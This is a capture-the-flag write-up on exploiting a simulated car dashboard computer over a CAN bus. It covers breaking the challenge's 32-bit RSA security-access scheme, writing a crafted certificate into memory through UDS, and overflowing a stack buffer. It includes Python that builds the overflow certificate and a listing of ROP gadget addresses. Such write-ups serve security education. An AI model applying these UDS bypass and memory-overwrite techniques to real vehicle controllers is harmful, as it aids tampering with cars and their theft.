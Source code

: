 ## Climate Controller Catastrophe  (750)

### Description

Catting cars is a major issue these days. It's impossible to sell your stolen car as a whole, so you sell it in parts. Dashboard computers are popular since they break quite often ;-).

Unfortunately, the dashboard computer is paired with the main computer. So, simply exchanging it will not do the trick. In fact, without the handshake to the main computer it will not operate the climate control buttons.

Of course just pairing the dashboard computer isn't cool enough, try to smash the stack instead! We suspect the device isn't using the serial interface for its pairing algorithm.

In addition to the attached challenge and reversing binaries, you're provided a special "challenge" which you can flash to wipe the EEPROM of your dashboard computer.

### Write-up

Challange with maximum points, in some way it wasn't too hard, just amount of code was greater then previous challanges.

This time we have firmware with CAN controllers which is communicated by SPI bus with MCU, for better understanding SPI intercommunication we can use this repository of similar [CAN library](https://github.com/coryjfowler/MCP_CAN_lib), unfortunatly I wasn't able to find exact CAN lib in open source, looks like develpers used own library.

For communication by CAN bus we used Arduino Uno, CAN shield with mcp2515 chip and [CAN bus lib](https://github.com/Seeed-Studio/CAN_BUS_Shield).
Small Arduino sketch was forwarding messages between CAN and Serial interface and python script responsible for processing multi CAN packets.


Among firmware modules you can identify SHA256 algo, HMAC-SHA256, EC routine, but you don't need to look deep inside of all mentioned above. As I discovered a little bit lately firmware handlers implements standart [UDS](https://en.wikipedia.org/wiki/Unified_Diagnostic_Services) servise, also nice cheatsheet  available [here](https://automotive.softing.com/fileadmin/sof-files/pdf/de/ae/poster/UDS_Faltposter_softing2016.pdf). For transmiting data larger than 8 byte, OBD2 and UDS utilize additional protocol, which is well described by links abouve.

Current firmware is using 3 UDS services:

 - 0x27 Security Access - challange/responce authentication mechainsim which you need to pass before accessing other services. Current implementation is using RSA scheme with weak key length (32 bits), 31337 public exponent and 2777704703 module, which can be easely factorized by any online tool, using primes we calculate private exponent 690033473. During authentication we receive challange, encrypt it using private exponent and send back.

 - 0x31 Routine Control - service command in case of reciving "014301" value resets stored shared secret to all 0xFF values.

 - 0x3d Write Memory By Address - service command, which allows overwrite range of address in NVM memory, where EC certificate is located (in case of something goes wrong, challange contains additional firmware for wiping NVM memory, it will be usefull for "unbricking" your board).

Next lets look startup routine, after printing "Initializing..." firmware initialize shared secret (HMAC key), if it set to 0xFF additional parsing of stored EC certificate is done. During parsing (function at 0x6297) some size checks are missing which allows us to overflow stack buffer and overwrite return pointer, all we need to do is make special certificate, store it to NVM and reset the board.

```python
def gen_cert(rop_payload):
    cert_name="1"
    cert_name="\x80"+chr(len(cert_name))+cert_name
    curve_name="\x00"*(108)+rop_payload
    curve_name="\x81"+chr(len(curve_name))+curve_name
    magic="3"
    magic="\x82"+chr(len(magic))+magic
    key="4"*0x31
    key="\x83"+chr(len(key))+key
    sig="5"*0x20
    sig="\x84"+chr(len(sig))+sig
    cert=cert_name+curve_name+magic+key+sig
    cert="\x30"+chr(len(cert))+cert
    return cert
```

Before printing the flag there is additional masking which we need to turn off, for this purpose we can use such rop gadgets:
    ROM:4C68    ser     r24
    ROM:4C69    pop     r0
    ROM:4C6A    pop     r29
    ROM:4C6B    pop     r28
    ROM:4C6C    ret

    ROM:8BB2    sts     flag_mask, r24
    ROM:8BB4    pop     r0
    ROM:8BB5    pop     r29
    ROM:8BB6    pop     r28
    ROM:8BB7    ret

    ROM:925D    pop     r17     #set 0x7212 - print_serial()
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:9259    mov     r24, r17 # pass 0x7212 to flag_print()
    ROM:925A    mov     r25, r16
    ROM:925B    pop     r29
    ROM:925C    pop     r28
    ROM:925D    pop     r17
    ROM:925E    pop     r16
    ROM:925F    ret

    ROM:8BB8    print_flag:
    ROM:8BB8    push    r28
    ...
    ROM:8BF0    ret

NOTE: Return pointers on XMEGA is stored as 3! bytes in Big Endian.

If everything is correct you will see your flag after "Initializing" message.

[climat](images/climat1.png)
